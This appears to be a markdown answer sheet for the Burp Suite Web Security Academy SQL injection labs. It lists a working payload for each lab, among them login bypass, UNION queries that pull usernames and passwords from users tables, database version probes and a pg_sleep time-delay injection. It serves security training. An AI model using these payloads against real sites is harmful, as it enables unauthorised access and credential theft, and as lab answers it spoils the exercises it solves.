# Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--


--------------------------------

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--


--------------------------------

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--


--------------------------------

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--


--------------------------------

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--



--------------------------------

### SQL injection UNION attack, retrieving multiple values in a single column
#### Solution: 'UNION SELECT NULL,username||'~'||password FROM users--


--------------------------------

### SQL injection attack, querying the database type and version on Oracle
#### Solution: 'UNION SELECT BANNER, NULL FROM v$version--


--------------------------------

### SQL injection attack, querying the database type and version on MySQL and Microsoft
#### Solution: 'UNION SELECT @@version, NULL#


--------------------------------

### SQL injection attack, listing the database contents on non-Oracle databases
#### Solution: Step-1 : '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--

#### Solution: Step-2 : '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qrktla'--

#### Solution: Step-3 : '+UNION+SELECT+username_gwlqzm,+password_ikxmsh+FROM+users_qrktla-


--------------------------------

### SQL injection attack, listing the database contents on Oracle
#### Solution: Step-1 : '+UNION+SELECT+table_name,NULL+FROM+all_tables--

#### Solution: Step-2 : '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KNHGDL'--

#### Solution: Step-3 : '+UNION+SELECT+USERNAME_XEIEJW,+PASSWORD_UHIKUI+FROM+USERS_KNHGDL--


--------------------------------

### Blind SQL injection with time delays
#### Solution: TrackingId=x'||pg_sleep(10)--

